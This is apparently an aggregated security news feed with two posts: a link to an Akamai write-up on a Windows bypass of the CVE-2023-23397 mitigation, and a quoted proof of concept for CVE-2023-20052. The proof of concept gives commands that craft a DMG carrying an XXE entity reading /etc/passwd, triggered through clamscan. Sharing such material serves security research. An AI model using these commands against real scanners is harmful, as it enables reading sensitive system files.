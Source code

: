 <table><tr><td><b>→</b><a href="https://www.akamai.com/blog/security-research/important-outlook-vulnerability-bypass-windows-api">
https://www.akamai.com/blog/security-research/important-outlook-vulnerability-bypass-windows-api
</a>
<blockquote>
Akamai researchers explore a new critical vulnerability in Windows that could lead to a bypass of CVE-2023-23397’s mitigation.
</blockquote>
</td></tr></table>

---

# freedomf0x
`2023-05-10`

* https://github.com/nokn0wthing/CVE-2023-25002

<blockquote>
💥CVE-2023-20052 exploit 

To create malicious DMG file:
$ git clone https://github.com/nokn0wthing/CVE-2023-20052.git
$ cd CVE-2023-20052
$ sudo docker build -t cve-2023-20052 .
$ sudo docker run -v $(pwd):/exploit -it cve-2023-20052 bash

$ genisoimage -D -V &quot;exploit&quot; -no-pad -r -apple -file-mode 0777 -o test.img . &amp;&amp; dmg dmg test.img test.dmg
$ bbe -e 's|&lt;!DOCTYPE plist PUBLIC &quot;-//Apple Computer//DTD PLIST 1.0//EN&quot; &quot;http://www.apple.com/DTDs/PropertyList-1.0.dtd&quot;&gt;|&lt;!DOCTYPE plist [&lt;!ENTITY xxe SYSTEM &quot;/etc/passwd&quot;&gt; ]&gt;|' -e 's/blkx/&amp;xxe\;/' test.dmg -o exploit.dmg

To trigger exploit:
$ clamscan --debug exploit.dmg
</blockquote>

![pic](pictures/9c6137a10d254bdf88ff33a63d77801c529e44579fb17562fe90867329f1e4c3.jpg)

---

# cibsecurity
`2023-05-10`
